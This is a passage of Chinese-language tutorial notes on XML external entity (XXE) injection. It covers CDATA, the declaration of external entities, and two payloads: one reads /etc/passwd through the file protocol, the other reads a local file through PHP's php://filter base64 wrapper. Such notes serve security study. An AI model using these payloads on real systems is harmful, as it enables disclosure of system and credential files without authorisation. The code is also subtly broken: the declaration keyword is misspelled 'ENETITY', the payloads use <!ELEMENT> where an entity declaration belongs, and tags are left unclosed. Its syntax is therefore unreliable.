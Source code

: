   >    >    >
   >    >    > CDATA：指不应由XML解析器进行解析的文本数据，CDATA部分的所有内容都会被解析器忽略
   >    >    >
   >    >    > > 格式：`<![CDATA[代码]]>`
   >    >
   >    > 2. 外部普通实体
   >    >
   >    >    * 声明：
   >    >
   >    >      > 方式一：`<!ENETITY 实体名称 SYSTEM "URI/URL">`
   >    >      >
   >    >      > 使用这种方式调用的DTD文件是私有的，由我们自己创建，没有公开发行
   >    >      >
   >    >      > ---
   >    >      >
   >    >      > 方式二：`<!ENETITY 实体名称 PUBLIC "DTD标识名" "公用的DTD的URI">`
   >    >      >
   >    >      > 使用这种方式调用的DTD文件是由每个权威机构制定，供特定行业或公司
   >    >
   >    >    * 作用：读取外部文件
   >    >
   >    >    * 利用：利用外部普通实体与file协议读取敏感文件
   >    >
   >    >      > 读取不包含特殊字符的文件：
   >    >      >
   >    >      > ~~~xml-dtd
   >    >      > <?xml version="1.0" encoding="UTF-8"?>
   >    >      > <!DOCTYPE foo [
   >    >      > <!ELEMENT xxe SYSTEM "file:///etc/passwd">
   >    >      > ]>
   >    >      > <user>
   >    >      > <username>
   >    >      > 	&xxe;		
   >    >      > <username>
   >    >      > <password>
   >    >      > 	password
   >    >      > <password>
   >    >      > ~~~
   >    >      >
   >    >      > ---
   >    >      >
   >    >      > 读取包含特殊字符的文件（利用PHP伪协议读取）：
   >    >      >
   >    >      > ~~~xml-dtd
   >    >      > <?xml version="1.0" encoding="UTF-8"?>
   >    >      > <!DOCTYPE foo [
   >    >      > <!ELEMENT bar SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/xxetest.txt">
   >    >      > ]>
   >    >      > <hell>
   >    >      > hello &bar;		
   >    >      > <hell>
   >    >      > ~~~
   >    >